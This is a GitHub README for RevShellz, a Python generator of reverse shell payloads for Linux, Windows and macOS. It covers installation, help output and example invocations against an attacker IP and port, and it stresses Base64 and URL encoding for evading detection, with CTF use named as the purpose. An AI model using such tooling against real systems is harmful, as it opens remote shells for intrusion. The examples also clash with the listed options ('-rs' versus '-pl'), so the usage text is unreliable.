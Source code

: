 <h1 align="center">
  <br>
  <a href="https://github.com/mkdirlove/RevShellz"><img src="https://github.com/mkdirlove/RevShellz/blob/main/logo.png" alt="RevShellz
"></a>
  <br>
  Yet another reverse shell generator written in Python.
  <br>
</h1>

<a href="https://github.com/veilwr4ith">
  <img src="https://github.com/veilwr4ith.png?size=50">
</a>

#### About
```
Initially developed by mkdirlove and enhanced by me (veilwr4ith), is a reverse shell payload generator compatible with Linux, Windows, and macOS. The updated version includes new features such as Base64 and URL encoding for payloads, which helps avoid straightforward detection by making them less immediately recognizable. This is particularly useful for Capture The Flag (CTF) challenges with payload restrictions. Additionally, I've incorporated various payloads into the tool's dictionary, including Python-based payloads, Lua, and msfvenom options for Metasploit.
```

#### Installation

Copy-paste this into your terminal:

```sh
git clone https://github.com/mkdirlove/RevShellz.git
```
```
cd RevShellz
```
```
python3 revshellz.py
```
or
```
python3 revshellz.py -h
```
#### Usage
``` 
░█▀▄░█▀▀░█░█░█▀▀░█░█░█▀▀░█░░░█░░░▀▀█ v2.0-dev
░█▀▄░█▀▀░▀▄▀░▀▀█░█▀█░█▀▀░█░░░█░░░▄▀░
░▀░▀░▀▀▀░░▀░░▀▀▀░▀░▀░▀▀▀░▀▀▀░▀▀▀░▀▀▀ 

Made with ❤️  by @mkdirlovee & @veilwr4ith

usage: test.py [-h] [-ip IPADDRESS] [-p PORT] [-os OPERATING_SYSTEM] [-pl PAYLOAD] [-l LIST] [-enc ENCODE]

RevShellz: Yet another reverse shell generator written in Python.

options:
  -h, --help            show this help message and exit
  -ip IPADDRESS, --ipaddress IPADDRESS
                        Target IP address
  -p PORT, --port PORT  Target port number
  -os OPERATING_SYSTEM, --operating-system OPERATING_SYSTEM
                        Target operating system (linux, windows, macos)
  -pl PAYLOAD, --payload PAYLOAD
                        Payload for reverse shell
  -l LIST, --list LIST  List available reverse shell payload types for the specified OS
  -enc ENCODE, --encode ENCODE
                        Encode the payload in Base64 or URL

```
#### Example

Listing reverse shells
```
python3 revshellz.py -l linux, windows, macos
```

#### Example

Generating reverse shell for Linux
```
python3 revshellz.py -ip 10.10.10.1 -p 1337 -rs 'bash -i' -os linux
```
Generating reverse shell for Windows
```
python3 revshellz.py -ip 10.10.10.1 -p 1337 -rs 'PowerShell #1' -os windows
```
Generating reverse shell for MacOS
```
python3 revshellz.py -ip 10.10.10.1 -p 1337 -rs 'nc mkfifo' -os linux
```
Generating reverse shell with URL Encoding
```
python3 revshellz.py -ip 10.10.10.1 -p 1337 -rs 'nc mkfifo' -os linux -enc url
```
Generating reverse shell with Base64 Encoding
```
python3 revshellz.py -ip 10.10.10.1 -p 1337 -rs 'nc mkfifo' -os linux -enc base64
```
